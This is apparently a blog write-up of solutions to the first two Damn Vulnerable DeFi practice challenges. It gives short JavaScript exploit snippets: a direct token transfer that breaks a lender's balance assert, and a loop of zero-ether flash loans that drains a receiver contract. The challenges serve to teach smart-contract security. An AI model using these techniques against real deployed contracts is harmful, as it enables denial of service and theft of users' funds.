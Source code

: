 
# Damn Vulnerable DeFi Solution


This post collects my solution to [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html), an excellent DeFi vulnerabilities practice platform. It's really a good introduction for whom new to smart contract vulnerabilities. Compared to [Ethernaut](https://ethernaut.openzeppelin.com/), challenges here are more similar to real-world vulnerabilities, and the way we play it is more friendly. I also referred to  some other blogs when finishing these challenges, thanks to these authors. 



Before starting this series of challenges, I recommend you to learn UniswapV1 and UniswapV2. Not having any DeFi knowledge will make you struggle in basic concepts, and understanding these two protocols is almost enough for this practice. I strongly recommend two blogs where I learned these two protocols: 

[Programming DeFi: Uniswap.](https://jeiwan.net/posts/programming-defi-uniswap-1/)

 and 

[Programming DeFi: Uniswap V2.](https://jeiwan.net/posts/programming-defi-uniswapv2-1/)

The author of these two wonderful blogs also wrote another well-known blog:

[Building Blockchain in Go](https://jeiwan.net/posts/building-blockchain-in-go-part-1/).



Most details are omitted in this blog, and the full source code of my solution can be found [here](https://github.com/y1cunhui/damn-vulnerable-defi/tree/myanswer).

## 1. Unstoppable

The bug is in this line of `UnstoppableLender.sol`:

```solidity
assert(poolBalance == balanceBefore);
```

Although as the comment says, it's ensured by the `deposit` function; users can also send tokens to this contract directly without calling `deposit` and without triggering `fallback`(since it's ERC20 token). So the solution is simple, just transfer tokens directly to the pool:

```javascript
hacker = await this.token.connect(attacker);
await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
```

## 2. Naive receiver

To drain the user's contract, we just need to flash loan `0 ether` each time:

```javascript
await this.pool.connect(attacker);
for (i=0;i<10;i++) {
    await this.pool.flashLoan(this.receiver.address, 0);
}
```
